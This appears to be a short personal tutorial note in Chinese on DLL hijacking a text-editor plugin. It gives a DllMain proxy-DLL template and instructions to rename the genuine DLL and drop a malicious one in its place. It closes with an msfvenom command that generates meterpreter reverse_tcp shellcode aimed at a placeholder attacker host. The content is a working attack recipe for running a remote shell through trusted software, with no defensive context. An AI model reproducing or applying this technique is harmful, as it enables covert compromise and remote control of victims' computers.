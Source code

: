 ### 即时调用

![image-20211029094519999](C:\Users\ssc\AppData\Roaming\Typora\typora-user-images\image-20211029094519999.png)

vs创建动态DLL

修改导出代码（头部、code）

```c
// 需修改
#include "pch.h"
#include <Windows.h>
#include <stdlib.h>

// 入口函数
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		DisableThreadLibraryCalls(hModule);
		// 需修改
		/*
		 code
		*/
		return Load();
	}
	else if (dwReason == DLL_PROCESS_DETACH)
	{
		Free();
	}

	return TRUE;
}
```

将编译后的dll放置修改的dll同目录下，正常dll名称修改为工具中的原始DLL名称（即DSpellCheckOrg），恶意dll名称改为正常dll名称。

## 注意

如果需要自己书写函数，记得申明`extern "C"`

```c
// extern "C" __declspec(dllexport) 类型 函数(参数);
extern "C" __declspec(dllexport) void Scintilla_DirectFunction();
```

# shellcode生成

```shell
# msf
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<host> LPORT=<port> -f c
```
